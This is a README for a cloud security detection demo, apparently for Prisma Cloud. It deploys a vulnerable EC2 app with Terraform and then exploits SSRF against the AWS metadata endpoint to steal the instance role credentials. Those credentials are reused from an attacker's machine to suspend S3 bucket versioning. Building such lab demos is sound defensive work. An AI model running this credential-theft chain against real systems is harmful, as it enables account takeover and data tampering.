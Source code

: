 # Demo for the detection of role credential compromise

## Introduction
In this demo, we will exploit a Server Side Request Forgery (SSRF) vulnerability
in a web application to extract the credentials of the EC2 instance where the 
application is running. The application will inadvertently contact the AWS 
metadata service to extract the credentials.

## Requirements
To run this demo, we need the following:
1. An AWS account onboarded to a Prisma Cloud stack
2. A user account (or IDP account) with enough permissions to do operations
such as running instances, creating roles and policies and passing roles
3. Terraform installed locally. Here are the steps for Mac:
```shell
 brew update
 brew tap hashicorp/tap
 brew install hashicorp/tap/terraform
```

## Steps to create the demo scenario
1. Go to the `terraform` directory 
2. Open the file ``variables.tf``
3. Change the value for all variables
4. run ``terraform init``
5. run ``terraform plan``. Make sure there are no errors at the end
6. run ``terraform apply``. Make sure there are no errors at the end
7. Go to http://<ec2_ip_address>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ec2_role>

## Steps to complete the demo
8. Copy the `AccessKeyId`, `SecretAccessKey` and `Token` into environment 
variables in the attacker's machine:
```shell
export AWS_ACCESS_KEY_ID=...
export export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
```
9. Run a command from the attacker's machine. For example:
```shell
aws s3api put-bucket-versioning --bucket <bucket_name> --versioning-configuration Status=Suspended
```
